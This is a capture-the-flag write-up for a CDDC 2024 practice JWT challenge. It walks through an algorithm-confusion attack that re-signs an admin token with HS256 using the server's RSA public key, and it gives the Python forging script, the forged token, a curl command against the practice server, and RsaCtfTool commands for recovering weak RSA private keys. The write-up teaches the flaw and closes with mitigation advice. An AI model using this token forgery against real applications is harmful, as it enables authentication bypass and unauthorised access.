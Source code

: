```yaml
---
description: >-
  The Main challenge is from CDDC 2024 Practice Practice round. Go try it first
  before you read this.
---
```


# JWT Challenge

We have learnt about JWT, but what about the attack of it?

## Can you compromise this?

{% file src="../../.gitbook/assets/web4_so_dizzy.zip" %}

## Setup

```bash
# Unzip the file
unzip web4_so_dizzy.zip
cd web4_so_dizzy

# Start the flask server on your own host/VM
python -m main.py

# Now just use it the way you would a server :)

```

If CDDC practice machine is still up, here is the initial site:&#x20;

{% embed url="http://47.128.156.184:10008/" %}

<figure><img src="../../.gitbook/assets/Pasted image 20240506225257.png" alt=""><figcaption></figcaption></figure>

There are 2 options, to check in via admin or guest, when we click on either, we see this:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506225244.png" alt=""><figcaption><p>A hint at the site you need to visit for token</p></figcaption></figure>

So visiting http://47.128.156.184:10008/getcookie will supply the user with a cookie:&#x20;

Guest Token:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g
```

Translates to:

```
Headers = {
  "alg": "RS256",
  "typ": "JWT"
}

Payload = {
  "user": "guest"
}

Signature = "ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g"
```

We see the algo used was "RS256" which is RSA with SHA256, means the key is asymmetric.

We have a public key from http://47.128.156.184:10008/api/jwt

```
{"public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"}
```

Public key:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP
ESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn
ZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG
cd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw
27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST
KU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v
LQIDAQAB
-----END PUBLIC KEY-----
```

Checking the source code they provided, this is how the server side validates token, so do you see what is wrong with it?&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506231933 (1).png" alt=""><figcaption><p>From main.py</p></figcaption></figure>

There is no validation!

If anything is modified on the algo section of the Headers, the `jwt.decode` will process it using that algorithm, this vulnerability is important to note since we can technically just modify this field in the JWT using HMAC, resign the token with the public key, send it over, the server uses the public key to decrypt the signature, and see our information sent anyways.

Indicated in the documentation of this library is the following:\
"This decoding method is insecure. By default `jwt.decode` parses the alg header. This allows symmetric macs and asymmetric signatures. If both are allowed a signature bypass described in CVE-2016-10555 is possible."&#x20;

### For more information along with mitigation:&#x20;

{% embed url="https://docs.authlib.org/en/latest/jose/jwt.html" %}

We also need to modify the user from user to admin, we can achieve this using simple python code as follows:

```python
from authlib.jose import jwt

# Your public key
public_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"

def gentoken(key):
    header = {"alg": "HS256"}
    payload = {"user": "admin"}
    token = jwt.encode(header, payload, key)
    return token

token = gentoken(public_key_pseudo)
print(token)
```

The output will be this token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY
```

Check with JWT burp extension to see if the signature is verified:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506212518.png" alt=""><figcaption><p>Using JSON web Tokens extension of Burpsuite, we can verify our token is working</p></figcaption></figure>

Extension:

{% embed url="https://github.com/portswigger/json-web-tokens" %}

Since it is verified, there should be no issue on the server side, we can curl it to see our flag:

```bash
curl --cookie "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY" http://47.128.156.184:10008/post/1
```

And bypassed!

&#x20;![](<../../.gitbook/assets/Pasted image 20240506212454 - Copy (1).png>)

## HMAC Attack

If the situation was different, and the token was just using HMAC from the start, getting a hold of the symmetric key would mean game over for the server, since we would already be able to resign the JWT and send it to the server.

## Small key RSA SHA256

If the public key was not as big as the current, the private key could possibly be recovered using the RsaCtfTool

We try to get the private key from the public key

```bash
git clone https://github.com/RsaCtfTool/RsaCtfTool.git
cd RsaCtfTool 
pip3 install -r requirements.txt

python3 RsaCtfTool.py --publickey ../public.pem --private
```

If it is recoverable, the private key will show:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506235237.png" alt=""><figcaption><p>Source: https://ctftime.org/writeup/30541</p></figcaption></figure>

Which you can use to resign the token after modification.

### Conclusion

It is important to use validation for all your methods with regards to authentication, and use of strong keys are recommended, and do not expose your keys easily.

#### Author: [`Beckham`](https://github.com/Ninjarku)🐱‍👤
